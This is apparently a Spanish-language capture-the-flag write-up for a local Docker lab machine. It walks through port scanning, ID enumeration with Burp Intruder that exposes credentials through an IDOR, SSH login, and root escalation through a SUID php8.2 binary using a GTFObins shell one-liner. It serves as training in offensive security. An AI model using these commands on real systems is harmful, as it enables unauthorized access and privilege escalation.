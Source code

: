 # Document

## **1. Información Inicial**

Desplegamos la maquina con docker

```bash
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

---

## **2. Reconocimiento (Recon)**

### 2.1 Escaneo de Puertos

- [x] **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
```

Allports

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

 **Puertos Abiertos**:
 **[Puerto 22]**:

- [x] **Nmap serveis/versions**:

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

```

 **Puertos Abiertos**:
 **[Puerto 22]**  OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
 **[Puerto 80]** 80/tcp open  http    Apache httpd 2.4.62 ((Debian))

---

## **2 Enumeración** (Web)

![Pasted image 20250211221856.png](<imagenes/Pasted image 20250211221856.png>)
Analizamos con Burpsuite

![Pasted image 20250211221927.png](<imagenes/Pasted image 20250211221927.png>)
 Vemos que para cada petición , genera un ID
 Vamos a tratar de encontrar ID's generados y ver si contienen algo

Mandamos la petición al Intruder
Creamos un ataque tipo "Sniper" de tipo "Numerico"
Configuramos del 1 al 1000

![Pasted image 20250211222050.png](<imagenes/Pasted image 20250211222050.png>)

En los resultados, ya vemos que por tamaño de respuesta, el ID 21 muestra algo distinto: (Tamaño 16679)
![Pasted image 20250211222217.png](<imagenes/Pasted image 20250211222217.png>)

Comprovamos el ID:
![Pasted image 20250211222251.png](<imagenes/Pasted image 20250211222251.png>)
~~![Pasted image 20250211221729.png](<imagenes/Pasted image 20250211221729.png>)~~

Encontramos login y password

---

## **4. Explotación (Exploit)**

Probamos a ingresar por SSH con ese usuario y contraseña, dado que tiene el puerot 22 abierto

![Pasted image 20250211222541.png](<imagenes/Pasted image 20250211222541.png>)

Accedemos a la maquina como Pepe.

---

## **5. Escalada de privilegios

Ahora, una vez dentro como Pepe, vamos probar a escalar nuestros privilegios

Buscamos permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null

/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/php8.2
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Encontramos `/usr/bin/php8.2
Buscamos en GTFObins

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Explotamos

```bash
pepe@278b98666e01:/usr/bin$ ./php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```

---

## **6. Lecciones Aprendidas**

-
- IDOR en documentos PDF

---

## **7. Recursos**

- **Referencias**:
- GTFObins  

- **Herramientas Utilizadas**:
  - **Nmap**
  - **Burpsuite**

---
